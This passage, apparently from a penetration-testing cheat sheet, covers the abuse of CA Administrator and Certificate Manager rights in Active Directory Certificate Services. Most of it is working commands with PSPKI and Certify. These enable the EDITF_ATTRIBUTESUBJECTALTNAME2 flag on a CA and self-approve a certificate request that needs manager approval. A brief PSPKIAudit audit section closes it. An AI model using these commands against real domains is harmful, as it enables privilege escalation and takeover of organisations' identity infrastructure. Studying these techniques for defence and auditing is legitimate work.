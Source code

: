 `ManageCA` and `ManageCertificates` rights translate to the "CA Administrator" and "Certificate Manager" ("CA Officer") respectively.

The "CA Administrator" role allows to set the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag (see **ESC6**):

```
 # Check before setting the flag
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -getreg "policy\EditFlags"

 # Invoke SetConfigEntry
PS > "$(hostname) : $(whoami)"
WS01 : megacorp\CertAdmin
PSPKI > $configReader = New-Object SysadminsLV.PKI.Dcom.Implementation.CertSrvRegManagerD "CA01.megacorp.local"
PSPKI > $configReader.SetRootNode($true)
PSPKI > $configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
1114446
PSPKI > $configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

 # Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
Cmd > hostname
DC01
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -getreg "policy\EditFlags"
```

The "Certificate Manager" role allows to remotely approve pending certificate requests which can by used by an adversary to subvert the "CA certificate manager approval" protection:

```
 # Request a certificate that requires manager approval with Certify
PS > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:ApprovalNeeded
...
[*] Request ID : 1337

 # Approve a pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-PendingRequest -RequestID 1337 | Approve-CertificateRequest

 # Download the issued certificate with Certify
PS > .\Certify.exe download /ca:CA01.megacorp.local\CA01 /id:1337
```




## Audit

* [https://github.com/GhostPack/PSPKIAudit](https://github.com/GhostPack/PSPKIAudit)

```
PS > Get-WindowsCapability -Online -Name "Rsat.*" | where Name -match "CertificateServices|ActiveDIrectory" | Add-WindowsCapability -Online
PS > cd PSPKIAudit
PS > Get-ChildItem -Recurse | Unblock-File
PS > Import-Module .\PSPKIAudit.psm1
PS > Invoke-PKIAudit -CAComputerName CA01.megacorp.local
```
